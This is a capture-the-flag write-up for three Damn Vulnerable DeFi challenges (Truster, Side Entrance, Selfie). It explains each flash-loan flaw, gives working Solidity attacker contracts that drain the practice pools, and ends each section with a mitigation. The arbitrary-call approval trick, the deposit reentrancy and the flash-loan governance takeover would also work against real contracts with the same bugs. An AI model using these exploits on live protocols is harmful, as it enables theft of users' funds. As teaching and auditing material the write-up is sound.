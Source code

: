 # 3 - Truster

## **Problem:**
More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

## **Solution:**
The flashloan function takes the target contract address as an input, which will be responsible for repaying the debt. The function directly calls target.functionCall(data) from the Address library of OpenZeppelin, without validating the type of contract at the target address.

We exploit this behavior by initiating a flashloan with a borrowed amount of 0 tokens. We pass the address of the token contract as the target and provide the function signature of the approve function as the data. This results in the TrusterLenderPool contract approving tokens to our contract.

With this approval in place, our contract is able to transfer the entire token balance from the pool to itself, effectively bypassing the intended security checks.

### **Code:**
```javascript
contract Attacker {
    TrusterLenderPool public pool;
    DamnValuableToken public token;
    address public recovery;

    constructor(TrusterLenderPool _pool, DamnValuableToken _token, address _recovery) {
        pool = _pool;
        token = _token;
        recovery = _recovery;
    }

    function attack() external {
        pool.flashLoan(0, address(this), address(token), abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint256).max));
        token.transferFrom(address(pool), recovery, 1_000_000e18);
    }        
}
```
## **Mitigation:**
Consider changing target parameter to be an interface that execute operations and than repay limiting the user from calling arbitrary contracts.

```diff
- function flashLoan(uint256 borrowAmount, address target, bytes calldata data) external {
+ function flashLoan(uint256 borrowAmount, IFlashLoanBorrower target, bytes calldata data) external {
```


<br><br>

# 4 - Side Entrance

## **Problem:**

A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flashloans using the deposited ETH to promote their system.

You start with 1 ETH in balance. Pass the challenge by rescuing all ETH from the pool and depositing it in the designated recovery account.

## **Solution:**
The pool is designed to allow `deposit`, `withdraw`, and `flashLoan` functions. The `flashLoan` function checks that the borrower has repayed by comparing contract's balance before and after the loan.
The problem is that the IFlashLoanEtherReceiver we pass can repay correctly by sending eth to the contract but it can also send them by using the `deposit` function incrementing our balance using borrowed funds.
We can then withdraw all the funds from the pool and send them to the recovery account.

### **Code:**
```javascript
contract SideEntranceAttacker is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;
    address recovery;

    constructor(SideEntranceLenderPool _pool, address _recovery) {
        pool = _pool;
        recovery = _recovery;
    }

    function attack() external {
        pool.flashLoan(1000e18);

        // after attack withdraw all ETH from pool
        pool.withdraw();
        SafeTransferLib.safeTransferETH(recovery, 1000e18);
    }

    function execute() external payable override {
        pool.deposit{value: 1000e18}();
    }

    receive() external payable {
    }
}
```

## **Mitigation:**
Consider using a lock mechanism to prevent user to call deposit during a flashloan.

```diff
function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;
+   lockdeposit = true;

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    ...

+   lockdeposit = false;
}
```
<br>

```diff
    function deposit() external payable {
+       require(!lockdeposit, "Deposit not allowed during flashloan");
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }
```


# 5 - Selfie
## **Problem:**
A new lending pool has launched! It’s now offering flash loans of DVT tokens. It even includes a fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million at risk.

Rescue all funds from the pool and deposit them into the designated recovery account.

## **Solution:**
The pool allows users to borrow DVT tokens and then repay them. The pool also as an emergency withdraw function that can be called by the governance contract. The governance contract is a simple ERC20Votes contract that allows users to vote on proposals if they have 50%+1 of the total supply.
The DVT token is the one used for governance (ERC20Votes). 
The problem is that anyone could flashloan all the govenance tokens, delegate themself and propose a new action to start the emergency withdraw function.

Steps:
1. Flashloan all the DVT Vote tokens from the pool.
2. Now that the attacker has the majority of the votes, delegate himself and propose a new action to call the emergency withdraw function.
3. Repay the flashloan.
4. Waiting the action delay to execute the action.
5. Execute the action to withdraw all the funds from the pool.


### **Code:**
Attacker contract's `attack` function:
```javascript
function attack() external returns (uint256) {
    SelfiePool(pool).flashLoan(
        this,
        address(governanceToken),
        SelfiePool(pool).maxFlashLoan(address(governanceToken)),
        ""
    );     
    return actionId;    
}

function onFlashLoan(
    address initiator,
    address token,
    uint256 amount,
    uint256 fee,
    bytes calldata data) external override returns (bytes32) {
    Votes(token).delegate(address(this));
    // Add a governance action to queue that calls emergencyExit on the pool
    actionId = ISimpleGovernance(governance).queueAction(
        pool,
        0,
        abi.encodeWithSignature("emergencyExit(address)", recovery)
    );

    // Approve to repay the loan
    IERC20(token).approve(pool, amount + fee);

    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
```

Player executing the attack and waiting for the action delay to execute the action:
```javascript
Attacker attacker = new Attacker(address(pool), recovery, address(governance), token);
uint256 actionId = attacker.attack();
// Execute the queued action after the delay
vm.warp(block.timestamp + ISimpleGovernance(governance).getActionDelay());
ISimpleGovernance(governance).executeAction(actionId);
```

## **Mitigation:**
Consider not using the same token for governance and for the pool.
Governance token should not be counted for borrowed tokens.